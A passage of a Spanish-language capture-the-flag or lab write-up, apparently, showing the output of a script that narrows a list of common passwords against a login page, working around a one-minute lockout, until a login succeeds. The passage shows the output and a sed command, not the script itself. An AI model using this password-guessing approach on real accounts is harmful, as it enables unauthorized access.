 Ejecutando el codigo vemos lo siguiente.

```bash
$ bash enum-user6.sh 

La clave debe estar en: thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper","1111","zxcvbn","555555","11111111","131313","freedom","777777","pass","maggie","159753","aaaaaa","ginger","princess","joshua","cheese","amanda","summer","love","ashley","nicole","chelsea","biteme","matthew","access","yankees","987654321","dallas","austin","thunder","taylor","matrix","mobilemail","mom","monitor","monitoring","montana","moon","moscow
La clave debe estar en: thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper","1111","zxcvbn","555555","11111111","131313","freedom","777777","pass","maggie","159753","aaaaaa","ginger","princess
La clave debe estar en: thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper
Estoy dentro de tu 4 #En esta parte ya nos bloqueo la pagina por un minuto pero ya tenemos una lista reducida.
Estoy dentro de tu 5
Estoy dentro de tu 6
Estoy dentro de tu 7
```

Y actualizamos pass0.txt con el comando siguiente:

``` 
echo 'thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper' | sed s/'","'/'\n'/g > pass0.txt
```

Y corremos el script por segunda vez comantando la linea que hace cp de password.txt a pass0.txt.

```bash
$ bash enum-user6.sh 
La clave debe estar en: thomas","hockey","ranger","daniel","starwars","klaster
La clave debe estar en: daniel","starwars","klaster
La clave debe estar en: starwars","klaster
```

En este caso solo nos queda probar una de las dos claves y logearnos de manera exitosa.

![done](img20.png)
